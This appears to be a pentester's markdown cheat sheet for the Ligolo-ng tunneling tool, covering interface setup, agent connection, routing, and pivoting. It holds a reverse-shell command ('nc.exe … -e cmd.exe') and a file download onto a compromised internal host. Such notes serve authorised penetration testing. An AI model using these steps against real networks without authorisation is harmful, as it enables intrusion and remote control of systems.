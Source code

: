 ```yaml
---
tags:
  - tool
  - tunneling
---
```

# Ligolo-ng

A _simple_, _lightweight_ and _fast_ tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a **tun interface** (without the need of SOCKS) - [ligolo-ng](https://github.com/nicocha30/ligolo-ng)

```bash
# Configure the network interface
sudo ip tuntap add user kali mode tun dev ligolo
sudo ip link set ligolo up

# Cleanup the network interface (automatically performed on reboot)
sudo ip link delete ligolo
```

See [Youtube](https://www.youtube.com/watch?v=DM1B8S80EvQ)

## Capabilities

```bash
# Start agent on kali
~/compiled_binaries/ligolo/proxy -selfcert

# Connect to agent on target
.\agent.exe -connect $OUR_IP:11601 -retry -ignore-cert
```

### Establish tunnel

**In Logolo session:**

```bash
# Select session
session

# Check interface information
ifconfig
```

**In normal terminal:**

```bash
# Add routing information to global routing table
sudo ip route add $TARGET_CIDR dev ligolo

# Confirm routing information
ip r
```

**In Logolo Session:**

```bash
# Start the tunnel
start
```

### Forward Reverse Shell Connections

**In Logolo session:**

```bash
# Setup listener
listener_add --addr 0.0.0.0:443 --to 127.0.0.1:443

# Check listeners
listener_list
```

**In normal terminal:**

```bash
# On kali machine
rlwrap -crA nc -lvnp 9001

# On internal host
.\nc.exe $PIVOT_IP 9001 -e cmd.exe
```

### Upload Files

**In Logolo session:**

```bash
# Setup listener for uploading files with python simple http server
listener_add -addr 0.0.0.0:9002 --to 127.0.0.1:80
```

**In normal terminal:**

```bash
# On kali machine
python3 -m http.server 80

# On internal host
iwr -uri http://$PIVOT_IP:9002/example.txt -outfile example.txt
```
